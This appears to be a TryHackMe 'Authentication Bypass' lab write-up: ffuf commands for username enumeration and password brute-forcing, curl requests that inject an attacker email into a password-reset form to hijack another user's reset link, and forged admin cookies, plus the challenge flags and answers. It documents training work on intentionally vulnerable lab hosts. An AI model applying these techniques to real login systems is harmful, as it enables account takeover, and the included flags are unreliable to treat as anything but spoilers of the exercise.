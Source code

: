 # THM - Authentication Bypass


## Task 2

http://10.10.113.185/customers/signup


### Task 2.1

```shell
ffuf -w ../../Tools/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/signup -mr "username already exists"

echo -e "admin\nrobert\nsimon\nsteve" >> valid_usernames.txt
```

> simon


### Task 2.2

> steve


### Task 2.3

> robert



## Task 3

http://10.10.113.185/customers/login


### Task 3.1

```shell
ffuf -w valid_usernames.txt:W1,../../Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.113.185/customers/login -fc 200
```

> Steve/thunder


## Task 4

### Task 4.1

```shell
curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

curl 'http://10.10.113.185/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

http://10.10.113.185/customers/signup

Username: dftf

```shell
curl 'http://10.10.113.185/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=dftf@customer.acmeitsupport.thm'
```

http://10.10.113.185/customers/tickets/3

http://10.10.113.185/customers/reset/2b569ead859164754e7dbe86dd0ad233

http://10.10.113.185/customers/tickets/1

> THM{AUTH_BYPASS_COMPLETE}


## Task 5

```shell
curl http://10.10.88.14/cookie-test

curl -H "Cookie: logged_in=true; admin=false" http://10.10.88.14/cookie-test
```


### Task 5.1

```shell
curl -H "Cookie: logged_in=true; admin=true" http://10.10.88.14/cookie-test
```

> THM{COOKIE_TAMPERING}


### Task 5.2

https://crackstation.net/

> 463729


### Task 5.3

```shell
echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 -d
```

> THM{BASE64_ENCODING}


### Task 5.4

```shell
echo '{"id":1,"admin":true}' | base64
```

> eyJpZCI6MSwiYWRtaW4iOnRydWV9Cg==

